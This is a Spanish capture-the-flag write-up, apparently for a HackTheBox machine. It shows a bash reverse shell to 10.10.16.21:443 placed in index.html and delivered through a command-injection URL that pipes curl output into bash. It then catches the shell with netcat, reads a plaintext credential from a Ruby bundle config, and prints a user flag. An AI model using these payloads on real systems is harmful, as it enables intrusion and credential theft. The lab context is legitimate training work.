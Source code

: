 Recibo la traza ICMP

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:01:34.535828 IP 10.10.11.189 > 10.10.16.21: ICMP echo request, id 56034, seq 1, length 64
10:01:34.535850 IP 10.10.16.21 > 10.10.11.189: ICMP echo reply, id 56034, seq 1, length 64
```

Creo un archivo ```index.html``` que se encargue de enviarme una reverse shell al interpretarlo

```null
cat index.html
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'
```

```null
http://10.10.16.21/%20`curl 10.10.16.21 | bash`
```

Gano acceso en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.21] from (UNKNOWN) [10.10.11.189] 46784
bash: cannot set terminal process group (660): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
ruby@precious:/var/www/pdfapp$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ruby@precious:/var/www/pdfapp$ export TERM=xterm
ruby@precious:/var/www/pdfapp$ export SHELL=bash
ruby@precious:/var/www/pdfapp$ stty rows 55 columns 209
```

La contraseña de ```henry``` se encuentra dentro del directorio personal de ```ruby``` en el directorio ```.bundle```

```null
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Puedo ver la primera flag

```null
henry@precious:~$ cat user.txt 
b0c7f804ca1769b95e5f16c8b6d1e361
```
